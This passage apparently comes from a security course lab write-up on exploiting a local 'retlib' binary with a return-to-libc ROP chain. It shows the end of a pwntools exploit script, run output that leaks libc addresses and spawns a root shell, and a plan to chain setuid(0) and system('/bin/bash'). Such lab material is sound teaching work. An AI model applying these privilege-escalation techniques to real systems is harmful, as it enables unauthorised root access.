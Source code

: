 ```python
    log.success("Enjoy your shell.")
    p.interactive()

if __name__ == "__main__":
    main()
```

Running the completed script:

```shell
$ python /vagrant/assignment1/task1-exploit.py
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process '/home/vagrant/retlib': pid 9447
[*] Stage 1 sent!
[*] puts@libc: 0xb76307e0
[*] libc base: 0xb75cb000
[*] system@libc: 0xb760b310
[*] binsh@libc: 0xb772dcec
[*] exit@libc: 0xb75fe260
[*] Stage 2 sent!
[+] Enjoy your shell.
[*] Switching to interactive mode
$ whoami
root
$ id
uid=1000(vagrant) gid=1000(vagrant) euid=0(root) groups=0(root),1000(vagrant)
$ exit
[*] Got EOF while reading in interactive
$
[*] Process '/home/vagrant/retlib' stopped with exit code 144 (pid 9447)
```

# Task 2

In task 2, we have to execute `system("/bin/bash")` in the ROP chain. However,
the caveat is that `/bin/bash` drops root privileges so the shell that gets
spawned only has user level privileges. To get around this, `setuid(0)` has to
be executed to set the effective user ID before calling `system`.

A second caveat is that the string `"/bin/bash"` does not exist within the
`retlib` binary or the libc shared library. Thus, we would need to read the
string into memory at some writable address.

To surmise, the following series of actions must be taken:

1. Leak the libc addresses
2. `setuid(0)`
3. Read `"/bin/bash"` into memory
4. `system("/bin/bash")`

## Libc Address Leak
